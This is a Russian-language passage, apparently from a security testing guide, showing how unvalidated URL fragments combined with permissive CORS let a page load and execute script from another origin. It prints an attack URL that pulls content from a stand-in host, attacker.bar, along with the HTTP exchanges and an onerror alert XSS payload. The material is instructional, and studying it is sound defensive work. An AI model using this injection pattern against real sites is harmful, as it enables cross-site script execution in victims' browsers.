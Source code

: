 Например, запрос, подобный этому, покажет содержимое файла `profile.php`:

`http://example.foo/main.php#profile.php`

Запрос и ответ, созданные `http://example.foo/profile.php`:

```http
GET /profile.php HTTP/1.1
Host: example.foo
[...]
Referer: http://example.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
[...]
Content-Length: 25
Content-Type: text/html

[тело ответа]
```

Теперь, когда валидации URL нет, мы можем вставить удалённый скрипт, который будет вставлен и выполнен в контексте домена `example.foo` со следующим URL:

```text
http://example.foo/main.php#http://attacker.bar/file.php
```

Запрос и ответ, созданные `http://attacker.bar/file.php`:

```http
GET /file.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/main.php
origin: http://example.foo

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 92
Content-Type: text/html

[Контент, вставленный с attacker.bar]: <img src="#" onerror="alert('Domain: '+document.domain)">
```

## Ссылки

- [Раздел CORS в памятке OWASP по защите HTML5](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#cross-origin-resource-sharing)
- [MDN Cross-Origin Resources Sharing](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
